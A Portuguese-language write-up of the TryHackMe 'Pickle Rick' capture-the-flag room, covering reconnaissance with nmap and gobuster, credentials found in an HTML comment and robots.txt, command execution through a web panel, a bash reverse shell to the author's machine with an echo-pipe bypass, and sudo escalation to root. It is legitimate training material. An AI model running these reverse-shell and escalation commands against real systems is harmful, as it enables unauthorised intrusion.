






> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [Pickle Rick](https://tryhackme.com/room/picklerick)

<a href="https://tryhackme.com/room/picklerick"><figure></figure></a>

> A Rick and Morty CTF. Help turn Rick back into a human!

Capture The Flag original disponível em [Try Hack Me](https://tryhackme.com/room/picklerick), feito por [Try Hack Me](https://tryhackme.com/p/tryhackme), [ar33zy](https://tryhackme.com/p/ar33zy) e [arebel](https://tryhackme.com/p/arebel).

Dificuldade: `Fácil`
Resolvido em: `2026/03/28`

# Conteúdos

TODO

# Writeup

## Sumário

O desafio `Pickle Rick` consiste na aquisição do acesso a um painel de administrador num website e, em seguida, no uso de uma linha de comando para realizar execução de código remotamente.

## Reconhecimento

Como normal, a plataforma THM providencia o IP de acesso para a máquina. Primeiramente realizei um ajuste para a facilidade durante a solução: adicionei a linha `<MACHINE_IP> pr.net` para o arquivo `/etc/hosts`. Desta forma, posso acessar a máquina com a referência `pr.net`, descomplicando muitos comandos.

Logo após, verifica-se se tudo está certo.

```bash
kali@kali $ ping -c 3 pr.net
PING pr.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from pr.net (<MACHINE_IP>): icmp_seq=1 ttl=62 time=234 ms
64 bytes from pr.net (<MACHINE_IP>): icmp_seq=2 ttl=62 time=257 ms
64 bytes from pr.net (<MACHINE_IP>): icmp_seq=3 ttl=62 time=176 ms

--- pr.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 176.092/222.442/257.260/34.125 ms
```

Sem nenhuma outra informação disponível, realizei um escaneamento das portas abertas com `nmap`[^nmap] para encontrar um caminho de penetração.

```bash
kali@kali $ nmap -T4 -sV -A pr.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-28 12:39 UTC
Nmap scan report for pr.net (<MACHINE_IP>)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:e5:bb:c3:34:10:e7:7f:b0:99:0b:51:b8:c9:59:22 (RSA)
|   256 7d:b1:09:48:b7:f1:64:6a:00:d4:ec:d7:b4:a9:ea:39 (ECDSA)
|_  256 57:0e:a3:bf:81:aa:20:09:55:34:ee:7f:bf:95:39:d2 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Aqui descobri que a porta `22` está disponível para `ssh`, e que a porta `80` para `html` (com Apache). Como entradas por `ssh` são muito mais complexas, explorarei o `html`.

## Exploração

<figure></figure>

A página de entrada do `html` não contém muita informação visível. Ao vasculhar o código fonte, porém...

```html
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
```

Ainda, sem fazer muito, já descobri um nome de usuário, `R1ckRul3s`. Se existe um usuário, existe algum ponto de acesso! Corroborando essa ideia é outro trecho do código fonte:

```html
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
```

Que mostra a existência do diretório `assets/`. Acessá-lo providencia alguns outros arquivos, mas nada excepcional.

<figure></figure>

Agora segui para o próximo passo lógico: vasculhamento de diretórios em procura de um painel de entrada. Usei da ferramenta `gobuster`[^gobuster] com uma das wordlists padrões do kali[^wl-dirl23med] para vasculhar a porta `html`, procurando por extensões comuns em websites (`.html`, `.php` e `.txt`):

```bash
kali@kali $ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u pr.net -x .html,.txt,.php -t 50
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pr.net
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 301] [--> http://pr.net/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

Já havia explorado `/index.html` e `/assets` nesse ponto, logo decidi checar `/login.php`.

<figure></figure>

Bem, a interface de acesso foi encontrada. Agora basta uma senha. Após alguns testes simples como `1234`, `admin` e `picklerick`, decidi retornar ao resultado do `gobuster` e verificar as outras descobertas. Isto é, a *única* outra descoberta, `/robots.txt`.[^robotstxt]

```
Wubbalubbadubdub
```

Mais um valor de senha para tentar. Usando do usuário `R1ckRul3s` e da senha `Wubbalubbadubdub` a página de painel libera o acesso a outra área do servidor.

## Escalação de Privilégios

<figure></figure>

Ótimo! Com uma linha de comandos direta o acesso simplifica drasticamente. Antes de ir fundo nisso, explorei as outras abas disponíveis mas todas possuíam a mesma interface:

<figure></figure>

Já que o console é o único elemento iterativo novo, realizei um `ls`[^ls] para ver os arquivos disponíveis...

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
...
```

Certamente um dos ingredientes está dentro de `Sup3rS3cretPickl3Ingred.txt`. Contudo, logo percebi que não seria tão fácil: ao realizar o comando `cat Sup3rS3cretPickl3Ingred.txt`...

<figure></figure>

Com um ambiente restrito assim, decidi realizar uma reverse shell[^rv] para facilitar o uso do terminal. Segui para descobrir qual o terminal rodando nesse sistema:

```bash
sh --version
```

Nenhuma resposta.

```bash
bash --version
GNU bash, version 5.0.17(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2019 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later 

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Ótimo! Encontramos a versão do terminal, `bash 5.0.17`. Na minha máquina eu abri um terminal dedicado e invoquei o `netcat`[^nc] com `nc -lvnp 1234`, já deixando-o preparado. Usando o site [revshells](https://www.revshells.com/) como recurso eu criei um revshell:

```bash
bash -i >& /dev/tcp/<MY_MACHINE_IP>/1234 0>&1
```

Mas o comando não funcionou quando invocado desta forma. Com `echo`, realizei um bypass rápido:

```bash
echo "bash -i >& /dev/tcp/<MY_MACHINE_IP>/1234 0>&1" | bash
```

E funcionou, estabelecendo a conexão com meu terminal. Imediatamente, invoquei `sudo -l` para verificar as permissões do sistema, obtendo ótimas notícias:

```bash
Matching Defaults entries for www-data on ip-<MACHINE_IP>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-<MACHINE_IP>:
    (ALL) NOPASSWD: ALL
```

O usuário `www-data` possuia permissão `(ALL) NOPASSWD`. Ou seja, bastava realizar a elevação imediata de privilégios com `sudo sh`:

```bash
$ sudo sh
whoami
root
```

O útlimo passo, agora, era buscar os três ingredientes (as três flags). Além de `/var/www/html/Sup3rS3cretPickl3Ingred.txt`, também encontrei `/usr/rick/second ingredients` e `/root/3rd.txt`. Com isso, a máquina foi completa.

[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^wl-dirl23med]: https://gitlab.com/kalilinux/packages/dirbuster/-/blob/37f2e9bb1c50bee238aa50d795cf853bb28b2997/directory-list-2.3-medium.txt
[^robotstxt]: https://en.wikipedia.org/wiki/Robots.txt
[^nc]: https://nc110.sourceforge.io/
[^rv]: https://en.wikipedia.org/wiki/Shell_shoveling